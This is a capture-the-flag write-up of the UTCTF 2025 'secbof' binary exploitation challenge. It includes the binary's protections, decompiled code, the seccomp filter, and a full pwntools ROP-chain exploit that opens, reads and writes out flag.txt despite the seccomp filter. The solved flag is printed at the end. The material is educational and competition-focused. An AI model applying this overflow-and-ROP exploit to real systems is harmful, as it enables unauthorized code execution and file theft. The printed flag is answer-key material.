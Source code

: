 # UTCTF 2025 - secbof Writeup
**Date:** March 17, 2025
**Author:** s1gn3rs

## Challenge Information

- **Category:** Binary Exploitation
- **Challenge Name:** secbof
- **Description:** A buffer overflow, but secure. Flag can be accessed at `./flag.txt`
- **Author:** Anthony (@stuckin414141 on Discord)
- **Connection:** `nc challenge.utctf.live 5141`

### Binary Security Features

```
Permissions:
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

### Key Observations

- **No PIE:** ASLR is off, so we can use fixed addresses in our ROP chain.
- **Stack Canary:** We need to ensure we do not overwrite it incorrectly.
- **NX Enabled:** We cannot execute shellcode on the stack.
- **SHSTK & IBT Enabled:** These are mitigations for control-flow integrity, but we can bypass them with ROP.

---

## Binary Analysis

### Main Function (Decompiled via Ghidra)

```c
undefined8 main(void){
  undefined1 local_88[128];

  setvbuf((FILE *)stdout, (char *)0x0, 2, 0);
  setvbuf((FILE *)stdin, (char *)0x0, 2, 0);
  install_filter();
  printf("Input> ");
  read(0, local_88, 1000);
  printf("Flag: ");
  return 0;
}
```

### Important Findings
1. **`install_filter()` is applied**, meaning a seccomp filter is enforced.
2. **Buffer overflow vulnerability:** We can overwrite the saved RIP since `read()` allows 1000 bytes.
3. **Potential for ROP attacks:** Since the binary has many unused functions, we have a good number of gadgets.

### Seccomp Filter Analysis

```bash
seccomp-tools dump ./chal
```

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

- **Allowed syscalls:** `read`, `write`, `open`, and `exit`.
- We can still read the flag using a **ROP Chain** to call these syscalls correctly.

---

## Exploiting the Buffer Overflow

### Finding the Offset to RIP

Using GDB, we determine that the offset to the saved RIP is **0x88 bytes**. Although a stack canary is present in the binary, we found that **there is no canary** between the buffer and the saved RIP, allowing us to overwrite it directly

```bash
pwndbg> # p/x savedRip - bufferAddress
pwndbg> p/x 0x7fffffffdb38 - 0x7fffffffdab0
$1 = 0x88
```

### ROP Strategy

1. **Bypass seccomp restrictions** using `open`, `read`, and `write` syscalls.
2. **We cannot use `open` from the PLT** because it calls `openat`. Instead, we invoke the syscall manually.
3. **Open the flag file** `./flag.txt`.
4. **Read the flag** into a writable memory section.
5. **Write the flag** to stdout.
6. **Return to instruction `main+77`** to flush stdout.

---

## Exploit Code

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("chal")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            b *main+114
            b *main+145
            b *0x44f980
            c
            c
            """)
    elif cond == 3:
        r = remote("challenge.utctf.live", 5141)
        #r = remote("localhost", 9000)

    return r


def main():
    r = conn(1)

    offsetRip = 0x88

    rop = ROP(e)               # Create a ROP object

    # Locate syscall PLT addresses
    open_plt = e.sym['open64']
    read_plt = e.sym['read']
    write_plt = e.sym['write']

    # Writable memory location (for buffer)
    bss_section = e.bss() + 0x100

    # Pop gadgets (found earlier)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
    pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
    # 0x0000000000433a83 : mov qword ptr [rdi], rdx ; ret
    mov_qword_rdi_rdx = 0x0000000000433a83
    syscallRet = 0x000000000041ae16
    #0x000000000048630b : pop rdx ; pop rbx ; ret
    pop_rdx_rbx = 0x000000000048630b

    print(f"pop_rdi: {hex(pop_rdi)}")
    print(f"pop_rsi: {hex(pop_rsi)}")
    print(f"pop_rdx_rbx: {hex(pop_rdx_rbx)}")

    # ROP chain

    rop.raw(pop_rdi)  # File name
    rop.raw(p64(bss_section))
    rop.raw(pop_rdx_rbx)
    rop.raw(b"./flag.t")  # rdx = "./flag.t"
    rop.raw(p64(0))  # Dummy rbx
    rop.raw(p64(mov_qword_rdi_rdx))  # mov [rdi], rdx

    rop.raw(p64(pop_rdi))  # Set destination (bss_section + 8)
    rop.raw(p64(bss_section + 8))
    rop.raw(p64(pop_rdx_rbx))  # Set value ("xt\x00")
    rop.raw(b"xt\x00\x00\x00\x00\x00\x00")  # rdx = "xt\x00"
    rop.raw(p64(0))  # Dummy rbx
    rop.raw(p64(mov_qword_rdi_rdx))  # mov [rdi], rdx




    # 1 Open("flag.txt", O_RDONLY)
    rop.raw(pop_rdi)  # File name
    rop.raw(p64(bss_section))
    rop.raw(pop_rsi)  # O_RDONLY = 0
    rop.raw(p64(0))
    # rop.raw(open_plt)  # Call open()
    rop.raw(pop_rax)
    rop.raw(p64(2))
    rop.raw(syscallRet)

    # 2 Read(fd, buffer, 64)
    rop.raw(pop_rdi)  # File descriptor (assuming open() returns 3)
    rop.raw(p64(3))   # This is hardcoded be carefull!!!! I was too lazy to get another gadget
    # Maybe you will need to change it's value (fd=5 to docker or server)
    rop.raw(pop_rsi)  # Buffer to store flag
    rop.raw(p64(bss_section))
    rop.raw(pop_rdx_rbx)  # Read 64 bytes
    rop.raw(p64(64))
    rop.raw(p64(0))
    rop.raw(read_plt)  # Call read()

    # 3 Write(1, buffer, 64)
    rop.raw(pop_rdi)  # STDOUT file descriptor
    rop.raw(p64(1))
    rop.raw(pop_rsi)  # Buffer containing flag
    rop.raw(p64(bss_section))
    rop.raw(write_plt)  # Call write()
    rop.raw(e.sym['main'] + 77)  # Return to main



    # print(rop.dump())

    # Send payload
    r.sendline(fit({offsetRip: rop.chain()}))  # Overflow + ROP chain

    r.interactive()

if __name__ == "__main__":
    main()
```

---

## Flag

```
utflag{r0p_with_4_littl3_catch}
```
